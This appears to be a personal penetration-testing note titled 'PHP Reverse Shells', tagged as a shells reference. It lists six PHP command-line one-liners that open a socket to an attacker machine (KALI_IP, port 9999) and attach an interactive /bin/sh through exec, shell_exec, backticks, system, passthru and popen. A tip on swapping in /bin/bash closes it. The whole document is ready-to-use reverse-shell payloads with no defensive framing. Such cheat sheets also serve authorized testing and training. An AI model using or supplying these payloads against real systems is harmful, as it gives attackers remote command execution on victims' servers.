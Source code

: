 ```yaml
---
title: PHP Reverse Shells
tags: shells/reverse/php
share: true
date: 2024-12-15
---
```


## Command Line

```bash
php -r '$sock=fsockopen("KALI_IP",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

^cba9ae

```bash
php -r '$sock=fsockopen("KALI_IP",9999);shell_exec("/bin/sh <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);`/bin/sh -i <&3 >&3 2>&3`;'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);system("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);passthru("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

>[!tip] 
>If there are issues with these try switching out `/bin/sh` with `/bin/bash`

